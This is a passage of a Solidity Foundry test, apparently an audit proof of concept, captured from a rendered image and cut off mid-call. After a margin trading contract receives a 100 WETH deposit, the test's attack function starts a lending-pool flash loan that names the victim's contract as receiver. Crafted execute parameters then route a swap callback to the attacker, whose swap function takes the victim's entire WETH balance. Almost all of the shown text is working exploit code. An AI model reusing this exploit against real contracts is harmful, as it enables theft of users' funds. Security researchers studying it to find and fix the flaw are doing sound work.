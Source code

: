 ```solidity
        bytes memory flashLoanParams = new bytes(0);
        vm.prank(user1);
        marginTradingUser1 = marginTradingFactory.createMarginTrading{value: depositAmt}(
            1, 
            depositParams, 
            flashLoanParams
            );

        // 100 WETH deposited to the deployed contract
        assert(weth.balanceOf(marginTradingUser1) == depositAmt);
    }

    function swap(address, address, uint256) public {
        // Drain all WETH tokens 
        weth.transferFrom(marginTradingUser1, address(this), weth.balanceOf(marginTradingUser1));
    }

    function testAttack() public {

        weth.approve(address(lendingPool), type(uint256).max);
        IERC20(_borrowToken).approve(address(lendingPool), type(uint256).max);

        address[] memory assets = new address[](1);
        assets[0] = _depositToken; 
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = 1 ether;
        uint256[] memory modes = new uint256[](1);
        modes[0] = 1;

        bytes memory swapParams = getSwapCalldata(address(0), address(0), 0);

        bytes memory executeParams;
        address[] memory _swapApproveToken = new address[](1);
        _swapApproveToken[0] = address(weth);
        address[] memory _withdrawAssets = new address[](0);
        uint256[] memory _withdrawAmounts = new uint256[](0);
        uint256[] memory _rateMode = new uint256[](0);
        address[] memory _debtTokens = new address[](0);
        address[] memory _tradeAssets = new address[](0);
        executeParams = encodeExecuteParams(
            0,
            address(this),
            address(this),
            _swapApproveToken,
            swapParams,         
            _tradeAssets,
            _withdrawAssets,
            _withdrawAmounts,
            _rateMode,
            _debtTokens
        );

        console.log("Attacker WETH balance", weth.balanceOf(address(this)));
        console.log("Trader WETH balance", weth.balanceOf(marginTradingUser1));

        lendingPool.flashLoan(
            marginTradingUser1, // use trader contract address for own executeFlashLoans() callback
            assets,
            amounts,
            modes,
            address(this),
            executeParams,
            uint16(0)
```